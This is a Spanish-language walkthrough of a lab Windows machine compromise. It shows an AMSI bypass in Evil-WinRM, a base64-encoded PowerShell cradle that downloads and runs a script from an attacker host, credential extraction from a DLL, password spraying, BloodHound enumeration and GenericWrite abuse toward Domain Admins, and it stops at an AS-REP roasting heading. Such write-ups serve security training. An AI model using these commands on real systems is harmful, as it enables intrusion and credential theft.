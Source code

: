 Podemos ahorrarnos el proceso de arriba. **Evil-winrm** cuenta con un **menu**, en esto hay una opcion de nombre: **Bypass-4MSI**. Si la ejecutamos, podemos ejecutarnos el **Invoke-PowerShell.ps1** sin necesidad de cambiar nada.

------------
#### DLL Inspection - Information Leakage  

A la hora de intentar colar el comando con **cefdebug**, veremos que tenemos el problema con las dobles comillas y las comillas simples. Lo que podemos hacer es convertir todo el comando integro a **base64**, cabe mencionar que para que esto funcione en **Windows** tenemos que hacerlo de esta manera:
```
# echo -n "IEX(New-Object New.WebClient).downloadString('http://10.10.14.30/ps.ps1')" | iconv -t utf-16le | base64 -w 0
```

Y para intrarpetarlo desde **PowerShell** tenemos que ejecutar el siguiente comando:

```powershell
PS > powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHcALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEAOAAxAC8AUABzAC4AcABzADEAJwApAA==
```

Si listamos los grupos a los que pertecenemos, vemos que tenemos asignado un grupo **Developer**.
Este grupo suele tener la capacidad de modificar, leer y crear archivos en el directorio de la parte web. Dentro de este directorio, podemos encontrar un *.dll* algo sospechoso dentro de la carpeta *bin*.
Podemos transferirnos el *.dll* para analizarnos desde nuestra maquina. Si hacemos un **strings** del *.dll* vemos que no hay nada relevante, sin embargo, cuando se trata de binarios provenientes de **windows** se recomiendo meterle la flag *-e l*, esto suele mostrarnos muchas veces más información.
Encontramos unas credenciales, como no existe el usuario contemplado en el **Leak** podemos hacer un **Password Spay** con **crackmapexec** con los usuarios que tenemos contemplados.

--------
#### BloodHound Enumeration

Con el usuario nuevo descubierto, nos conectamos con **evil-winrm**. Vamos a subir el **sharphound.exe** para recolectar toda la informacion para posteriormente procesarla con **BloodHound**:
```powershell 
PS > .\SharpHound.exe -c All
```

Esto nos creara un *.zip* que trasladaremos a nuestra maquina y lo subiremos a **BloodHound** 

--------
#### Abusing the GenericWrite privilege on a user

Enumerando el **Domain Controller** con **BloodHound** vemos muchas cosas interesantes, pero nos quedaremos con lo que podemos hacer con el actual usuario obtenido. Este tiene permisos de escritura sobre un usuario el cual pertenece a un grupo, el cual tiene derechos de escritura también sobre el grupo **Domain Admins**.

-------------
#### Making a user vulnerable to an ASREPRoast attack - Disabling Kerberos Pre-Authentication 

